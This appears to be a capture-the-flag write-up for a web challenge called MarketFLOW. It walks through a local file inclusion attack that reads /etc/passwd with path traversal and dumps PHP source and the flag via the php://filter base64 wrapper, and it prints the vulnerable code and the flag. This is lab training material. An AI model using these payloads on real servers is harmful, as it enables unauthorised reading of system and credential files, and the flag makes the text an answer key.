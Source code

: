 # Challenge Name: MarketFLOW


![date](https://img.shields.io/badge/date-08.03.2022-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![category](https://img.shields.io/badge/category-WEB-blueviolet.svg)   
![value](https://img.shields.io/badge/value-40-blue.svg)  

## Description

Created By **m4rc0s**

The same as Loose Funding Interest but a little harder, the same payload fails …

I think they have a WAF or some mechanism, how can I bypass this?

> **Hint** Can you extract the flag in base64 ?

http://35.178.97.233

## Detailed solution

![image](https://user-images.githubusercontent.com/72421091/157303780-66ed51b2-b849-4c7f-974a-6498f78a8863.png)

We have two pages at navbar

http://35.178.97.233/index.php?file=pages/forum.html
http://35.178.97.233/index.php?file=pages/news.html

We have a **file** parametre that take the location of file to display it. We probably can exploit local file inclusion

Let's try to read /etc/password  

http://35.178.97.233/index.php?file=../../../../../../../../../etc/passwd

![image](https://user-images.githubusercontent.com/72421091/157304152-6cd0cc76-9154-477a-8d59-fa65657b2c5d.png)

As we can see we were able to use LFI to read the /etc/passsword file now let's read the index.php

If we try to read directly the index.php file we gonna get some errors  

I'll use the base64 php wrapper to get the full source code  

http://35.178.97.233/index.php?file=php://filter/convert.base64-encode/resource=index.php

```
PD9waHAKJGZpbGVuYW1lID0gKGlzc2V0KCRfR0VUWyJmaWxlIl0pPyRfR0VUWyJmaWxlIl06InBhZ2VzL3dlbGNvbWUuaHRtbCIpOwppZigkX0dFVFsiZmlsZSJdID09ICJwYWdlcy9mbGFnIiApewoJZWNobyAiQmFhYWFhYWQgSGFja2VyIjsKfSBlbHNlIGluY2x1ZGUgJGZpbGVuYW1lOw==
```

Let's decode it i'll use cyberchef https://gchq.github.io/CyberChef/

```phph
<?php
$filename = (isset($_GET["file"])?$_GET["file"]:"pages/welcome.html");
if($_GET["file"] == "pages/flag" ){
	echo "Baaaaaad Hacker";
} else include $filename;
```

The flag is located at pages/flag let's use the same wrapper to read it

http://35.178.97.233/index.php?file=php://filter/convert.base64-encode/resource=pages/flag

```
Q1JJU0lTe2I3Zjg0NTkzODkzfQ==
```

Decode base64 => CRISIS{b7f84593893} 

## Flag

```
CRISIS{b7f84593893}
```
